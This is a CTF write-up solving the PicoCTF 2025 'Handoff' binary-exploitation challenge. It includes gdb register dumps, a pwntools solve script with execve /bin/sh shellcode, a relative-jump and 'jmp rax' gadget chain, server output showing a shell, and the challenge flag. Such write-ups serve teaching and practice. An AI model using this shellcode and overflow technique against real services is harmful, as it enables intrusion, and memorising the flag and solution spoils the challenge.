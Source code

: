 ```yaml
---
title: Handoff
category: PicoCTF-2025
chall_description:
points: 400
solves: 0
tags: Binary-Exploitation
date: 2025-03-09
comments: false
---
```


This challenge is a simple return to stack challenge with ASLR but no PIE. The input size is very restrictive, so a relative jump is required to jump to a larger user controlled buffer. 

---

# Initial Analysis
In the provided source we are given 3 main pieces of functionality: creating a recipient in an array (max of 32 bytes), creating a message for the array (we will not use this), and giving feedback (max of 32 bytes, vulnerable to a buffer overflow). The protections are pretty much non-existent in the compiled binary, but the stack addresses are randomized so we can't just jump to a known address in the stack.
# Obtaining Code Execution
When debugging with gdb, I found the following to occur when I trigger a buffer overflow:
```c
$rax   : 0x00007fffe8752544  →  0x0031313131313131 ("1111111"?)
$rbx   : 0x00007fffe8752688  →  0x00007fffe8752f22  →  "/mnt/share/handoff"
$rcx   : 0x00007f2b5e82da21  →  0x4f77fffff0003d48 ("H="?)
$rdx   : 0xfbad2288        
$rsp   : 0x00007fffe8752558  →  "11111111\n"
$rbp   : 0x3131313131313131 ("11111111"?)
$rsi   : 0x00000000231e52a1  →  "111111111111111111111111111\n"
$rdi   : 0x00007f2b5e90b720  →  0x0000000000000000
$rip   : 0x000000000040140e  →  <vuln+01e5> ret 
$r8    : 0x00000000231e52bd  →  0x0000000000000000
$r9    : 0x0               
$r10   : 0x0               
$r11   : 0x246             
$r12   : 0x1               
$r13   : 0x0               
$r14   : 0x00007f2b5e958000  →  0x00007f2b5e9592e0  →  0x0000000000000000
$r15   : 0x0
```
`rax` points to our input, which is executable. So, we can just jump to rax using the binary itself. Using cutter we can search for this gadget and find `jmp rax` at `0x40116c`.
```python
from pwn import *
r = process(elf.path)
r.sendline(b'3') # Select the 3rd option, exit and leave feedback
payload = b'\xeb\xfe'*int((20)/2) # basically a 2 byte loop, never exits, 20 bytes is the size before the RIP overwrite
payload += p64(4198764) # Address of jmp rax
print(len(payload))
r.sendline(payload)
r.interactive()
```
We can see that this does work, but now we have to achieve a shell.
# Exploitation, For Real This Time
Breaking at `0x4012f3`, we can intercept the first argument which will be the address of where the name is stored. The value is `0x7ffdd814b3e0` (will change if ran again). Than we can break at `0x4013e8` the exit function's fgets. The value stored there is `0x7ffdd814b6b4`. The offset is 724 bytes, so we can use the relative jump to jump 724 bytes back. After some tweaking the offset is actually 717 (idk why) and we have to pad our shell code. Finally, we have our solve script:
```python
from pwn import *
elf = context.binary = ELF('./handoff')

#r = remote('shape-facility.picoctf.net', 64512)
r = process(elf.path)

payload = b'1\n' # Add name 
payload += b'\x90\x90\x90\x90\x90\x90\x90\x31\xF6\x56\x48\xBB\x2F\x62\x69\x6E\x2F\x2F\x73\x68\x53\x54\x5F\xF7\xEE\xB0\x3B\x0F\x05\n' # Add shellcode /bin/sh
payload += b'3\n' # Exit
payload += b'\xe9\x2e\xfd\xff\xff' + b'0' * 15 # Jump to shellcode
payload += p64(4198764) # Return address, points to jmp rax

r.sendline(payload)
r.interactive()
```
After making sure it works locally, we can test on the server:
```
[*] '/home/h/Downloads/handoff'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX unknown - GNU_STACK missing
    PIE:        No PIE (0x400000)
    Stack:      Executable
    RWX:        Has RWX segments
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
[+] Opening connection to shape-facility.picoctf.net on port 53879: Done
[*] Switching to interactive mode
What option would you like to do?
1. Add a new recipient
2. Send a message to a recipient
3. Exit the app
What's the new recipient's name: 
What option would you like to do?
1. Add a new recipient
2. Send a message to a recipient
3. Exit the app
Thank you for using this service! If you could take a second to write a quick review, we would really appreciate it: 
$ ls
flag.txt
handoff
start.sh
$ cat flag.txt
picoCTF{p1v0ted_ftw_17db5315}
```
Based off the flag, this was an unintended solve!
